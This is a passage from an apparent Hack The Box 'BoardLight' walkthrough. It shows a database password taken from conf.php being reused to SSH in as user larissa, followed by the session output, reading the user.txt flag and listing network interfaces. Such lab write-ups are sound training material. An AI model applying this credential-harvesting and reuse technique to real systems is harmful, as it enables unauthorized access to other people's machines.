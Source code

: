 <br />
Use the larissag name from the passwd file and the database password from the conf.php file to ssh into the system.

{% raw %}
```sh
larissa:serverfun2$2023!!

┌──(kali㉿kali)-[~/Documents/htb/boardlight]
└─$ ssh larissa@10.10.11.11
The authenticity of host '10.10.11.11 (10.10.11.11)' can't be established.
ED25519 key fingerprint is SHA256:xngtcDPqg6MrK72I6lSp/cKgP2kwzG6rx2rlahvu/v0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.11' (ED25519) to the list of known hosts.
larissa@10.10.11.11's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

larissa@boardlight:~$
```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```sh
larissa@boardlight:~$ cat user.txt 
<redacted>
larissa@boardlight:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:d2:f7 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.10.11.11/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:d2f7/64 scope global dynamic mngtmpaddr 
       valid_lft 86395sec preferred_lft 14395sec
    inet6 fe80::250:56ff:feb9:d2f7/64 scope link 
       valid_lft forever preferred_lft forever
```
{% endraw %}

